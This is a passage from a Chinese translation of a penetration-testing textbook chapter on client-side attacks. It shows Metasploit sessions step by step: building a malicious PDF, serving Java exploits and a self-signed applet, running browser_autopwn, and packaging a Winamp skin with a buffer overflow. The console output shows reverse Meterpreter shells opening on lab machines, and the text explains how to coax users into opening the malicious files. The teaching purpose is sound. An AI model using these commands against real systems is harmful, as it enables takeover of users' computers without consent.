msf  exploit(adobe_pdf_embedded_exe) > **set LHOST 192.168.20.9**
                                                                             LHOST => 192.168.20.9
msf  exploit(adobe_pdf_embedded_exe) > **exploit**

[*] Reading in '/usr/share/set/readme/User_Manual.pdf'...
[*] Parsing '/usr/share/set/readme/User_Manual.pdf'...
[*] Using 'windows/meterpreter/reverse_tcp' as payload...
[*] Parsing Successful. Creating 'evil.pdf' file...
[+] evil.pdf stored at /root/.msf4/local/evil.pdf❷
```

我们将使用 Kali Linux 附带的 PDF 作为示例：Metasploit 用户指南，位于*/user/share/set/readme/User_Manual.pdf* ❶。生成的 PDF 将再次存储在*/root/msf4/local/*目录中 ❷。（在 Windows XP 目标上打开 PDF 之前，请确保使用*multi/handler*模块设置好负载处理程序。若需要复习，请参见示例 10-11。）

### 注意

之前的漏洞利用可能已将 Adobe Reader 置于不良状态，因此你可能需要重启 Windows XP，以便它正确加载新的 PDF。

当恶意 PDF 被打开时，用户会看到类似图 10-1 所示的警告。用户必须点击“打开”以便嵌入的可执行文件运行。此攻击依赖于用户愿意点击此警告。

图 10-1. PDF 嵌入式可执行文件用户警告

一旦你点击 PDF 警告中的“打开”选项，负载将会运行，你将收到一个会话。

### Java 漏洞利用

Java 漏洞是一个普遍存在的客户端攻击向量。事实上，一些专家建议，鉴于 Java 所面临的安全问题，用户应该卸载或禁用浏览器中的 Java 软件。

Java 攻击如此强大的原因之一是，一个漏洞利用可以访问多个平台。运行 Java 运行时环境（JRE）的 Windows、Mac，甚至是 Linux 系统，只要浏览器打开恶意页面，都可能受到同一漏洞的攻击。以下是一些漏洞利用示例。

#### Java 漏洞

作为第一个示例，我们将使用 Metasploit 模块*exploit/multi/browser/java_jre17_jmxbean*，如示例 10-15 所示。使用此模块与本章早些时候展示的 Internet Explorer Aurora 漏洞利用类似。Metasploit 设置一个恶意服务器，利用此跨平台漏洞攻击任何到达该页面的浏览器。所有运行 Java 7 版本（更新 11 之前）的浏览器都会受到影响。

示例 10-15. 设置 Java 漏洞利用

```
msf > **use exploit/multi/browser/java_jre17_jmxbean**
msf  exploit(java_jre17_jmxbean) > **show options**

Module options (exploit/multi/browser/java_jre17_jmxbean):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address
                                            on the local machine or 0.0.0.0
   SRVPORT     8080             yes       The local port to listen on.
--*snip*--
   URIPATH                      no        The URI to use for this exploit (default is random)

Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)

msf  exploit(java_jre17_jmxbean) > **set SRVHOST 192.168.20.9**
SRVHOST => 10.0.1.9
msf  exploit(java_jre17_jmxbean) > **set SRVPORT 80**
SRVPORT => 80
msf  exploit(java_jre17_jmxbean) > **set URIPATH javaexploit**
URIPATH => javaexploit
msf  exploit(java_jre17_jmxbean) > **show payloads**❶

Compatible Payloads
===================

   Name                            Disclosure Date  Rank    Description
   ----                            ---------------  ----    -----------
--*snip*--
   java/meterpreter/bind_tcp                        normal  Java Meterpreter, Java Bind TCP
                                                                  Stager
   java/meterpreter/reverse_http                    normal  Java Meterpreter, Java Reverse HTTP
                                                              Stager
   java/meterpreter/reverse_https                   normal  Java Meterpreter, Java Reverse
                                                              HTTPS Stager
   java/meterpreter/reverse_tcp                     normal  Java Meterpreter, Java Reverse TCP
                                                              Stager
   java/shell_reverse_tcp                           normal  Java Command Shell, Reverse TCP
                                                              Inline
--*snip*--
msf  exploit(java_jre17_jmxbean) > **set payload java/meterpreter/reverse_http**❷
payload => java/meterpreter/reverse_http
```

设置选项以匹配你的环境。将 `SRVHOST` 选项设置为本地 IP 地址，并根据需要更改 `SRVPORT`。将 `URIPATH` 设置为目标浏览器中易于输入的路径。

请注意，由于这个漏洞利用是多平台的，且代码执行完全在 JRE 内部进行，因此我们的有效载荷选项是基于 Java 的。常见的选项都在这里，包括分阶段有效载荷、内联有效载荷、绑定 shell、反向 shell、Meterpreter 等，正如 ❶ 所示的有效载荷列表所示。我们将使用有效载荷 *java/meterpreter/reverse_http*，它使用合法的 HTTP 流量 ❷。其选项如示例 10-16 所示。

示例 10-16. 使用 HTTP 有效载荷利用 Java 漏洞

```
msf  exploit(java_jre17_jmxbean) > **show options**

Module options (exploit/multi/browser/java_jre17_jmxbean):

--*snip*--

Payload options (java/meterpreter/reverse_http):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8080             yes       The local listener port

Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)

msf  exploit(java_jre17_jmxbean) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(java_jre17_jmxbean) > **exploit**
[*] Exploit running as background job.

[*] Started HTTP reverse handler on http://192.168.20.9:8080/
[*] Using URL: http://192.168.20.9:80/javaexploit
[*] Server started.
msf  exploit(java_jre17_jmxbean) > [*] 192.168.20.12       java_jre17_jmxbean - handling request for /javaexploit
[*] 192.168.20.12        java_jre17_jmxbean - handling request for /javaexploit/
[*] 192.168.20.12        java_jre17_jmxbean - handling request for /javaexploit/hGPonLVc.jar
[*] 192.168.20.12        java_jre17_jmxbean - handling request for /javaexploit/hGPonLVc.jar
[*] 192.168.20.12:49188 Request received for /INITJM...
[*] Meterpreter session 1 opened (192.168.20.9:8080 -> 192.168.20.12:49188) at 2015-05-05
19:15:19 -0400
```

这些选项应该很熟悉。默认的 `LPORT` 选项现在是 8080，而不是 4444。请注意，`SRVPORT` 和 `LPORT` 都默认为 8080，所以我们需要至少更改其中一个。

完成选项设置后，启动漏洞利用服务器，并从你的 Windows 7 目标机器上浏览恶意页面。只要启用了易受攻击的 Java 浏览器插件，Internet Explorer 或 Mozilla Firefox 都会成为此攻击的受害者。

HTTP 和 HTTPS Meterpreter 有效载荷的一个大特点是，除了它们是合法的 HTTP 和 HTTPS 流量，因而能够绕过一些流量检查过滤器外，它们还能够重新连接到断开的会话。（网络问题可能导致会话自发中断——这对于渗透测试人员来说是一个大麻烦。）我们将在第十三章中探讨其他持续访问的方法，但现在我们先来分离 Meterpreter 会话，如示例 10-17 所示。

示例 10-17. 分离 HTTP Meterpreter 会话

```
msf  exploit(java_jre17_jmxbean) > **sessions -i 1**
[*] Starting interaction with 1...

meterpreter > **detach**

[*] 10.0.1.16 - Meterpreter session 1 closed.  Reason: User exit
msf  exploit(java_jre17_jmxbean) >
[*] 192.168.20.12:49204 Request received for /WzZ7_vgHcXA6kWjDi4koK/...
[*] Incoming orphaned session WzZ7_vgHcXA6kWjDi4koK, reattaching...
[*] Meterpreter session 2 opened (192.168.20.9:8080 -> 192.168.20.12:49204) at 2015-05-05 19:15:45 -0400 ❶
```

如你所见，HTTP Meterpreter 有效载荷的处理程序仍在后台运行。稍等几秒钟，你应该能看到一个新会话自动打开，而无需用户重新访问攻击页面，如 ❶ 所示。除非会话已正式退出，否则有效载荷会继续尝试重新连接 Metasploit。（你可以使用 `SessionCommunicationTimeOut` 参数指定会话尝试重新连接的时间，这是有效载荷的高级选项。）

但如果你的渗透测试目标在更新 Java 方面非常勤奋，并且目前互联网上没有针对该软件的零日漏洞会怎么样呢？

#### 签名的 Java Applet

与 PDF 嵌入式可执行文件中讨论的针对 PDF 用户的攻击类似，我们可以通过简单地要求用户允许我们运行恶意代码来绕过未修补的 Java 漏洞。你可能见过类似这样的浏览器警告：“此站点希望在您的浏览器中运行此内容，您希望如何操作？”有时即便是安全意识强的用户，如果被说服认为对方内容有用，他们也可能会直接点击“是”并跳过警告，而不做进一步调查。

本示例中我们将使用的模块是*exploit/multi/browser/java_signed_applet*。顾名思义，该模块将创建一个恶意的 Java 小程序，如示例 10-18 所示。

示例 10-18. Metasploit 签名的 Java 小程序模块

```
msf  exploit(java_jre17_jmxbean) > **use exploit/multi/browser/java_signed_applet**
msf  exploit(java_signed_applet) > **show options**

Module options (exploit/multi/browser/java_signed_applet):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   APPLETNAME      SiteLoader       yes       The main applet's class name.
  ❶CERTCN          SiteLoader       yes       The CN= value for the certificate. Cannot contain
                                                ',' or '/'
   SRVHOST         0.0.0.0          yes       The local host to listen on. This must be an
                                                address on the local machine or 0.0.0.0
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL for incoming connections
   SSLCert                          no        Path to a custom SSL certificate (default is
                                                randomly generated)
   SSLVersion      SSL3             no        Specify the version of SSL that should be used
                                                (accepted: SSL2, SSL3, TLS1)
  ❷SigningCert                      no        Path to a signing certificate in PEM or PKCS12
                                                (.pfx) format
   SigningKey                       no        Path to a signing key in PEM format
   SigningKeyPass                   no        Password for signing key (required if SigningCert
                                                is a .pfx)
   URIPATH                          no        The URI to use for this exploit (default is
                                                random)

Exploit target:

   Id  Name
   --  ----
  ❸1   Windows x86 (Native Payload)

msf  exploit(java_signed_applet) > **set APPLETNAME BulbSec**
APPLETNAME => Bulb Security
msf  exploit(java_signed_applet) > **set SRVHOST 192.168.20.9**
SRVHOST => 192.168.20.9
msf  exploit(java_signed_applet) > **set SRVPORT 80**
SRVPORT => 80
```

旧版本的 Java 允许我们使用❶所示的`CERTCN`选项，声明小程序由我们选择的任何实体签名。较新的 Java 版本（如 Windows 7 目标系统上安装的版本）会显示签名者未知，除非我们使用受信任的签名证书对小程序进行签名，而我们可以在❷处指定该证书。如果设置了此选项，它将覆盖`CERTCN`选项。如果我们拥有受信任的签名证书，或者我们已经突破了目标系统的证书，我们可以让小程序看起来更合法，但在本示例中我们将保持小程序自签名。

如❸所示，本模块的默认目标是 Windows 系统。然而，如示例 10-19 所示，我们可以使用适用于运行 JRE 的其他平台的有效载荷。

示例 10-19. 使用 Java 有效载荷

```
msf  exploit(java_signed_applet) > **show targets**

Exploit targets:

   Id  Name
   --  ----
  ❶0   Generic (Java Payload)
   1   Windows x86 (Native Payload)
   2   Linux x86 (Native Payload)
   3   Mac OS X PPC (Native Payload)
   4   Mac OS X x86 (Native Payload)

msf  exploit(java_signed_applet) > **set target 0**
target => 0

msf  exploit(java_signed_applet) > **set payload java/meterpreter/reverse_tcp**
payload => java/meterpreter/reverse_tcp

msf  exploit(java_signed_applet) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(java_signed_applet) > **exploit**
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.20.9:4444
[*] Using URL: http://192.168.20.9:80/Dgrz12PY
[*] Server started.
```

与其他 Java 漏洞一样，我们可以将此攻击扩展到多个平台。我们可以将目标更改为 Linux 或 Mac OS，或使用一个 Java 有效载荷❶来同时针对所有平台。

### 注意

与我们的 PDF 示例类似，之前的漏洞攻击已使 Java 处于不良状态，您可能需要在尝试运行小程序之前重新启动 Windows 7。

从您的 Windows 7 目标系统浏览到 Metasploit 服务器，您应该会被提示运行小程序，如图 10-2 所示。安全警告提醒您，如果该小程序是恶意的，它将能够访问系统，并告知您仅在发布者受信的情况下才应运行该应用程序。由于我们没有使用浏览器证书链信任的签名证书，警告会以大字显示发布者未知。这应该会阻止任何人运行恶意小程序，对吧？

图 10-2. Java 小程序攻击

尽管有警告，Social-Engineer Toolkit（我们将在下一章中探讨）声称这个攻击是所有可用攻击中最成功的之一，尽管它不依赖于 Java 或底层操作系统中的任何未修补的漏洞。

### browser_autopwn

*browser_autopwn*模块是 Metasploit 中另一种客户端攻击选项。尽管有时它被认为是在作弊，但该模块会加载它知道的所有浏览器和浏览器插件模块（包括 Java、Flash 等），并等待浏览器连接到服务器。一旦浏览器连接，服务器会识别浏览器并提供所有它认为可能成功的漏洞利用。示例见示例 10-20。

示例 10-20. 启动 browser_autopwn

```
msf > **use auxiliary/server/browser_autopwn**
msf auxiliary(browser_autopwn) > **show options**

Module options (auxiliary/server/browser_autopwn):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   LHOST                        yes       The IP address to use for reverse-connect payloads
   SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address
                                            on the local machine or 0.0.0.0
   SRVPORT     8080             yes       The local port to listen on.
   SSL         false            no        Negotiate SSL for incoming connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly
                                            generated)
   SSLVersion  SSL3             no        Specify the version of SSL that should be used
                                            (accepted: SSL2, SSL3, TLS1)
   URIPATH                      no        The URI to use for this exploit (default is random)

msf auxiliary(browser_autopwn) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf auxiliary(browser_autopwn) > **set URIPATH autopwn**
URIPATH => autopwn
msf auxiliary(browser_autopwn) > **exploit**
[*] Auxiliary module execution completed

[*] Setup
msf auxiliary(browser_autopwn) >
[*] Obfuscating initial javascript 2015-03-25 12:55:22 -0400
[*] Done in 1.051220065 seconds

[*] Starting exploit modules on host 192.168.20.9...
--*snip*--
[*] --- Done, found 16 exploit modules

[*] Using URL: http://0.0.0.0:8080/autopwn
[*] Local IP: http://192.168.20.9:8080/autopwn
[*] Server started.
```

本模块的选项是常见的客户端攻击。如图所示，我已经将我的 shell 的 LHOST 设置为 Kali 的 IP 地址，URIPATH 设置为容易记住的内容（`autopwn`）。请注意，我们这里不需要设置任何 payload；当各个模块加载时，Metasploit 会自动适当地设置 payload 选项。

服务器启动后，从网页浏览器访问恶意页面。我在 Windows 7 目标上使用了 Internet Explorer，如示例 10-21 所示。

示例 10-21. 自动攻陷浏览器

```
[*] 192.168.20.12    browser_autopwn - Handling '/autopwn'
[*] 192.168.20.12    browser_autopwn - Handling '/autopwn?sessid=TWljcm9zb2Z0IFdpbmRvd3M6NzpTUDE6ZW4tdXM6eDg2Ok1TSUU6OC4wOg%3d%3d'
[*] 192.168.20.12    browser_autopwn - JavaScript Report: Microsoft Windows:7:SP1:en-us:x86:
MSIE:8.0: ❶
[*] 192.168.20.12    browser_autopwn - Responding with 14 exploits ❷
[*] 192.168.20.12    java_atomicreferencearray - Sending Java AtomicReferenceArray Type Violation Vulnerability
--*snip*--
msf auxiliary(browser_autopwn) > **sessions -l**

Active sessions
===============

  Id  Type                   Information                  Connection
  --  ----                   -----------                  ----------
  1   meterpreter java/java  Georgia Weidman @ BookWin7   192.168.20.9:7777 ->
                                                            192.168.20.12:49195 (192.168.20.12)
  2   meterpreter java/java  Georgia Weidman @ BookWin7   192.168.20.9:7777 ->
                                                            192.168.20.12:49202 (192.168.20.12)
  3   meterpreter java/java  Georgia Weidman @ BookWin7   192.168.20.9:7777 ->
                                                            192.168.20.12:49206 (192.168.20.12)
  4   meterpreter java/java  Georgia Weidman @ BookWin7   192.168.20.9:7777 ->
                                                            192.168.20.12:49209 (192.168.20.12)
```

正如你所看到的，Metasploit 会检测到我的浏览器并尝试识别其版本和运行的软件❶。然后，它会发送所有它认为可能有效的漏洞利用❷。

一切结束后，运行**`sessions -l`**来查看结果。在我的案例中，我收到了四个新的会话。对于这么少的工作量来说，表现不错。不过，正如你可能预期的那样，所有这些漏洞利用使浏览器过载并崩溃了。（幸运的是，所有会话都自动迁移了。）

尽管*browser_autopwn*远没有执行侦察然后选择针对目标可能有效的特定漏洞利用那样隐蔽或优雅，但它在紧急情况下确实能派上大用场，这也是它值得作为渗透测试工具包的一部分的原因。

### Winamp

到目前为止，我们的客户端攻击基本上遵循相同的模式。我们生成一个恶意文件，利用客户端软件中的漏洞，或者提示用户授权运行恶意代码。用户使用相关程序打开文件，然后我们在 Metasploit 中获得一个会话。现在，来点不一样的。

在这个例子中，我们通过欺骗用户替换 Winamp 音乐播放器的配置文件。当用户下次打开该程序时，无论用户打开哪个音乐文件，恶意的配置文件都会被处理。我们将使用的 Metasploit 模块是*exploit/windows/fileformat/winamp_maki_bof*，它利用了 Winamp 5.55 版本中的一个缓冲区溢出问题。

如示例 10-22 中的 `show options` 所示，本模块没有需要设置的选项；我们所需的只是一个 Windows 有效载荷。该模块生成一个用于 Winamp 皮肤的恶意 Maki 文件。与我们的 PDF 示例一样，最终由我们来提供该文件并为有效载荷设置处理程序。

示例 10-22. Metasploit Winamp 漏洞利用

```
msf > **use exploit/windows/fileformat/winamp_maki_bof**
msf  exploit(winamp_maki_bof) > **show options**

Module options (exploit/windows/fileformat/winamp_maki_bof):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Exploit target:

   Id  Name
   --  ----
   0   Winamp 5.55 / Windows XP SP3 / Windows 7 SP1

msf  exploit(winamp_maki_bof) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(winamp_maki_bof) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(winamp_maki_bof) > **exploit**

[*] Creating 'mcvcore.maki' file ...
[+] mcvcore.maki stored at /root/.msf4/local/mcvcore.maki
```

选择一个兼容的 Windows 有效载荷，如所示。一旦生成了恶意的 Maki 文件，将其复制到 Apache Web 服务器目录，并设置有效载荷处理程序。（设置处理程序的示例请参考示例 10-11）。现在我们需要将这个恶意文件打包，以便说服用户在 Winamp 中加载它。我们可以通过复制 Winamp 打包的皮肤之一来创建一个新的 Winamp 皮肤。然后将我们示例皮肤中的 *mcvcore.maki* 文件替换为我们恶意的文件。皮肤的外观无关紧要，因为它会导致 Winamp 崩溃并将会话发送到我们的 Metasploit 中。

在 Windows 7 中，复制默认的 Bento Winamp 皮肤文件夹（路径为 *C:\Program Files\Winamp\Skins*），并将其复制到 Kali 中。将文件夹名称从 *Bento* 重命名为 *Rocketship*。将 *Rocketship\scripts\mcvcore.maki* 文件替换为我们在 Metasploit 中创建的恶意文件。将文件夹压缩并复制到 Web 服务器中。在下一章中，我们将研究如何创建可信的社会工程学攻击，但可以简单地说，如果我们能够说服用户相信这个恶意皮肤会让他们的 Winamp 看起来像火箭船，那么我们可能能够说服他们安装它。

切换到 Windows 7，从 Kali Web 服务器下载压缩的皮肤，解压缩并将文件夹保存到 *C:\Program Files\Winamp\Skins*，如图 10-3 所示。

图 10-3. 安装恶意 Winamp 皮肤

现在打开 Winamp，进入 **选项** ▸ **皮肤**，选择 **火箭船**，如图 10-4 所示。

一旦选择了恶意皮肤，Winamp 会显示关闭状态，您将会在 Metasploit 处理程序中接收到一个会话。

图 10-4. 使用恶意皮肤

## 总结

本章中我们看到的攻击目标是那些未在网络端口上监听的软件下载。我们攻击了浏览器、PDF 查看器、Java 浏览器插件以及一个音乐播放器。我们生成了恶意文件，这些文件在用户打开时会触发客户端软件中的漏洞，我们还查看了那些要求用户授权运行恶意代码，而不是依赖未修补漏洞的例子。

对于客户端软件来说，互联网可能是一个可怕的地方。本章中讨论的一些漏洞在发布厂商补丁之前，已经在野外被发现。事实上，我们在 Java 漏洞中使用的 Java 漏洞，在 Metasploit 模块加入框架时，仍然是一个零日漏洞。即便某个用户的计算机已经完全修补，如果他们使用的是 Java 7，也可能遭遇恶意网站的攻击，而攻击者所需要做的仅仅是使用 Metasploit 成功发动攻击。

当然，在出现零日漏洞在互联网上肆虐时，禁用或卸载 Java 可以解决这个问题，但对于所有用户和组织来说，这可能不可行。尽管并非所有网站都使用 Java，但像 WebEx 和 GoToMeeting 这样的流行在线会议软件需要 Java，而虚拟课堂软件 Blackboard 也有 Java 组件。许多网络/安全设备实际上要求网络/安全管理员运行过时版本的 Java，这使得它们成为客户端攻击的完美目标。大多数读者或许能想到至少一个在没有安装 Java 时会发出警告的网站。

客户端软件对于任何组织的日常工作是必需的，但在评估安全风险时，不应忽视这些软件。保持所有客户端软件更新到最新的补丁版本，可能在个人计算机上已经是一个令人头疼的任务，更不用说整个组织的计算机了。即使一些组织在应用重要的 Windows 安全修复方面做得很好，也可能错过 Java 或 Adobe Reader 的更新，从而使公司工作站暴露于客户端攻击之下。

本章中的所有攻击都依赖于合法用户在目标系统上采取行动。虽然我们已经看到用户被欺骗打开恶意文件后可能发生的情况，但我们尚未深入探讨使人们打开这些文件的技巧。在下一章中，我们将研究社会工程学——即欺骗用户执行有害行为的方式，比如打开恶意文件、将凭据输入到攻击者控制的网站，或通过电话泄露敏感信息。
